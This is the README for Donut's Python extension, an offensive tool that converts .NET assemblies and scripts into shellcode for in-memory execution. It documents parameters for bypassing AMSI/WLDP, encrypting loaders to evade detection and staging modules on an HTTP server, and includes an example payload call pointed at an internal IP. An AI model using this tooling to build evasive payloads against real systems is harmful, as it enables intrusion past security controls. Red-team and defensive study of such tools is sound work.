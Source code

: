 # Python Extension

A Python C extension is now available which allows you to dynamically generate donut shellcode in Python.

## Requirements

The extension has only been tested in Python 3.7, it shouldn't have any compatibility issues with older 3.X versions of Python.

It will ***not*** work in Python 2.x.

## Installing the Extension

(Once the extension has been published to PyPi)
```
pip3 install donut-shellcode
```

## Manually Compiling And Installing the Extension

```bash
git clone https://github.com/TheWover/donut && cd donut
pip3 install . # or python setup.py install
```

## Usage

The Python extension accepts the same parameters as the main donut executable.

Here's a minimalistic example of using the extension:

```python
import donut
shellcode = donut.create(file="naga.exe", params='https://172.16.164.1/')
```

The ```donut``` module exposes only one function ```create()```, which is used to generate shellcode and accepts both positional and keyword arguments.

The only required parameter the ```create()``` function needs is the ```file``` argument which accepts a path to the .NET EXE/DLL or VBS/JS file to turn into shellcode.

```python
import donut

shellcode = donut.create(
    file='naga.exe',         # .NET assembly, EXE, DLL, VBS, JS or XSL file to execute in-memory
    url='http://127.0.0.1',  # HTTP server that will host the donut module
    arch=1,                  # Target architecture : 1=x86, 2=amd64, 3=x86+amd64(default)
    bypass=3,                # Bypass AMSI/WLDP : 1=none, 2=abort on fail, 3=continue on fail.(default)
    cls='namespace.class',   # Optional class name.  (required for .NET DLL)
    method='method',         # Optional method or API name for DLL. (method is required for .NET DLL)
    params='arg1, arg2',     # Optional parameters or command line.
    runtime='version',       # CLR runtime version. MetaHeader used by default or v4.0.30319 if none available
    appdomain='name'         # AppDomain name to create for .NET. Randomly generated by default.
)
```

## Keywords

The following table lists key words for the create method.

<table>
  <tr>
    <th>Keyword</th>
    <th>Type</th>
    <th>Description</th>
  </tr>
  <tr>
    <td>file</td>
    <td>String</td>
    <td>The path of file to execute in memory. VBS/JS/EXE/DLL files are supported.</td>
  </tr>
  <tr>
    <td>arch</td>
    <td>Integer</td>
    <td>Indicates the type of assembly code to generate. 1=<code>DONUT_ARCH_X86</code> and 2=<code>DONUT_ARCH_X64</code> are self-explanatory. 3=<code>DONUT_ARCH_X84</code> indicates dual-mode that combines shellcode for both X86 and AMD64. ARM64 will be supported at some point.</td>
  </tr>
  <tr>
    <td>bypass</td>
    <td>Integer</td>
    <td>Specifies behaviour of the code responsible for bypassing AMSI and WLDP. The current options are 1=<code>DONUT_BYPASS_NONE</code> which indicates that no attempt be made to disable AMSI or WLDP. 2=<code>DONUT_BYPASS_ABORT</code> indicates that failure to disable should result in aborting execution of the module. 3=<code>DONUT_BYPASS_CONTINUE</code> indicates that even if AMSI/WDLP bypasses fail, the shellcode will continue with execution.</td>
  </tr>
  <tr>
    <td>compress</td>
    <td>Integer</td>
    <td>Indicates if the input file should be compressed. Available engines are 1=<code>DONUT_COMPRESS_NONE</code>, 2=<code>DONUT_COMPRESS_APLIB</code> to use the <a href="http://ibsensoftware.com/products_aPLib.html">aPLib</a> algorithm. For builds on Windows, the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcompressbuffer">RtlCompressBuffer</a> API is available and supports 3=<code>DONUT_COMPRESS_LZNT1</code>, 4=<code>DONUT_COMPRESS_XPRESS</code> and 5=<code>DONUT_COMPRESS_XPRESS_HUFF</code>.</td>
  </tr>
  <tr>
    <td>entropy</td>
    <td>Integer</td>
    <td>Indicates whether Donut should use entropy and/or encryption for the loader to help evade detection. Available options are 1=<code>DONUT_ENTROPY_NONE</code>, 2=<code>DONUT_ENTROPY_RANDOM</code>, which generates random strings and 3=<code>DONUT_ENTROPY_DEFAULT</code> that combines <code>DONUT_ENTROPY_RANDOM</code> with symmetric encryption.</td>
  </tr>
  <tr>
    <td>format</td>
    <td>Integer</td>
    <td>Specifies the output format for the shellcode loader. Supported formats are 1=<code>DONUT_FORMAT_BINARY</code>, 2=<code>DONUT_FORMAT_BASE64</code>, 3=<code>DONUT_FORMAT_RUBY</code>, 4=<code>DONUT_FORMAT_C</code>, 5=<code>DONUT_FORMAT_PYTHON</code>, 6=<code>DONUT_FORMAT_POWERSHELL</code>, 7=<code>DONUT_FORMAT_CSHARP</code> and 8=<code>DONUT_FORMAT_HEX</code>. On Windows, the base64 string is copied to the clipboard.</td>
  </tr>
  <tr>
    <td>exit_opt</td>
    <td>Integer</td>
    <td>When the shellcode ends, <code>RtlExitUserThread</code> is called, which is the default behaviour. Use 2=<code>DONUT_OPT_EXIT_PROCESS</code> to terminate the host process via the <code>RtlExitUserProcess</code> API.</td>
  </tr>
  <tr>
    <td>thread</td>
    <td>Integer</td>
    <td>If the file is an unmanaged EXE, the loader will run the entrypoint as a thread. The loader also attempts to intercept calls to exit-related API stored in the Import Address Table by replacing those pointers with the address of the <code>RtlExitUserThread</code> API. However, hooking via IAT is generally unreliable and Donut may use code splicing / hooking in the future.</td>
  </tr>
  <tr>
    <td>oep</td>
    <td>String</td>
    <td>Tells the loader to create a new thread before continuing execution at the OEP provided by the user. Address should be in hexadecimal format.</td>
  </tr>
  <tr>
    <td>output</td>
    <td>String</td>
    <td>The path of where to save the shellcode/loader. Default is "loader.bin".</td>
  </tr>
  <tr>
    <td>runtime</td>
    <td>String</td>
    <td>The CLR runtime version to use for a .NET assembly. If none is provided, Donut will try reading from the PE's COM directory. If that fails, v4.0.30319 is used by default.</td>
  </tr>
  <tr>
    <td>appdomain</td>
    <td>String</td>
    <td>AppDomain name to create. If one is not specified by the caller, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
  <tr>
    <td>cls</td>
    <td>String</td>
    <td>The class name with method to invoke. A namespace is optional. e.g: <var>namespace.class</td>
  </tr>
  <tr>
    <td>method</td>
    <td>String</td>
    <td>The method that will be invoked by the shellcode once a .NET assembly is loaded into memory. This also holds the name of an exported API if the module is an unmanaged DLL.</td>
  </tr>
  <tr>
    <td>params</td>
    <td>String</td>
    <td>List of parameters for the .NET method or DLL function. For unmanaged EXE files, a 4-byte string is generated randomly to act as the module name. If entropy is disabled, this will be "AAAA"</td>
  </tr>
  <tr>
    <td>unicode</td>
    <td>Integer</td>
    <td>By default, the <code>params</code> string is passed to an unmanaged DLL function as-is, in ANSI format. If set, param is converted to UNICODE.</td>
  </tr>
  <tr>
    <td>url or server</td>
    <td>String</td>
    <td>If the instance type is <code>DONUT_INSTANCE_HTTP</code>, this should contain the server and path of where module will be stored. e.g: https://www.staging-server.com/modules/</td>
  </tr>
  <tr>
    <td>modname</td>
    <td>String</td>
    <td>If the type is <code>DONUT_INSTANCE_HTTP</code>, this will contain the name of the module for where to save the contents of <code>mod</code> to disk. If none is provided by the user, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
</table>

## Author

The Python extension was written by [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
